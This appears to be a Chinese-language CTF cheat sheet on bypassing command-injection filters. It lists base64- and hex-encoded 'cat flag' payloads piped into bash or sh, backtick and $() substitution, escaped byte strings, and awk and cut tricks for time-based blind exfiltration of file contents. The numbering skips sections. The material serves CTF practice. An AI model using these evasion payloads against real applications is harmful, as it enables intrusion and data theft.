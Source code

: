 ##  1.base64编码

echo Y2F0IGZsYWcK | base64 -d | /bin/bash

echo Y2F0IGZsYWcK | base64 -d | bash

echo Y2F0IGZsYWcK | base64 -d | sh

\`echo Y2F0IGZsYWcK | base64 -d `     ``表示执行

$(echo Y2F0IGZsYWcK | base64 -d)

## 2.base32

将上述编码换位base32

## 3.HEX编码

echo 63617420666c61672e706870| xxd -r -p | /bin/bash

echo 63617420666c61672e706870| xxd -r -p| bash

echo 63617420666c61672e706870| xxd -r -p | sh

\`echo 63617420666c61672e706870| xxd -r -p `     ``表示执行

$(echo 63617420666c61672e706870| xxd -r -p)

## 4.shellcode

echo \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70

print \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70

# 7.无回显时间盲注

## 基本命令执行

sleep 

cat awk NR awk逐行获取数据

```shell
#cat flag.php
hello
benben
#cat flag.php | awk NR==1
hello
#cat awk NR==2
benben
```

cut -c cut命令逐列获取单个字符

```shell
#cat flag.php
hello
benben
#cat flag.php | awk NR==1 | cut -c 1
h
#cat flag.php | awk NR==1 | cut -c 3
l
```
